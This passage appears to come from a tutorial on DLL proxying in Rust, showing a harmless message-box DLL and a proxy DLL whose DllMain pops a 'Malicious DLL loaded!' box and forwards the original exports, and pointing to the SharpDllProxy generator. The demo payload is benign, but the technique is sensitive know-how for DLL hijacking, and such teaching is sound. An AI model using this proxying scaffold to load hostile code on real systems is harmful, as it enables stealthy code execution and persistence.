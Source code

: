 Implementing DLL proxying for a DLL with numerous exported functions can be laborious. Fortunately, there are tools available to automate this process, such as [SharpDllProxy 7](https://github.com/Flangvik/SharpDllProxy/). This tool generates the Proxy DLL source code based on the extracted functions from the original DLL. The resulting source code simply reads a file into memory and then invokes it within a new thread. This automation streamlines the implementation of DLL proxying, making it more accessible for malicious actors.

Now that we have a high-level overview of how DLL proxying works, Let’s build a legit DLL, Let’s call it `o_foo.dll`

```rust
use winapi::um::winuser::MessageBoxA;

#[no_mangle]
pub unsafe extern "C" fn legitfunction() {
    let message = "Hello!\0";
    let title = "foo\0";

    MessageBoxA(
        std::ptr::null_mut(),
        message.as_ptr() as *const i8,
        title.as_ptr() as *const i8,
        0,
    );
}
```

Now this is simple when this DLL is executed, it shows a message box with the text “Hello!” and the title “foo” on the user’s screen. Additionally, the `cargo build --release` output is stored in the sample location. Conversely, for DLL proxying, we reroute the execution of a function named `legitfunction` from one DLL to another, specifically `o_foo.dll`. This requires integrating the function into a new (DLL), featuring a `DllMain` function as the entry point for DLLs.

```rust
use forward_dll;
use winapi::um::winuser::MessageBoxA;

forward_dll::forward_dll!(
    r#"C:\Users\foo\rs\o_foo.dll"#, 
    DLL_VERSION_FORWARDER,
    legitfunction
);

#[no_mangle]
pub unsafe extern "C" fn DllMain(instance: isize, reason: u32, reserved: *const u8) -> u32 {
    if reason == 1 {
        // Display a message box to indicate the DLL is loaded
        MessageBoxA(
            std::ptr::null_mut(),
            "Malicious DLL loaded!\0".as_ptr() as *const i8,
            "foo\0".as_ptr() as *const i8,
            0,
        );

        // Forward the legitfunction from the other DLL
        let _ = DLL_VERSION_FORWARDER.forward_all();

        // Return success
        return 1;
    }
    1
}
```

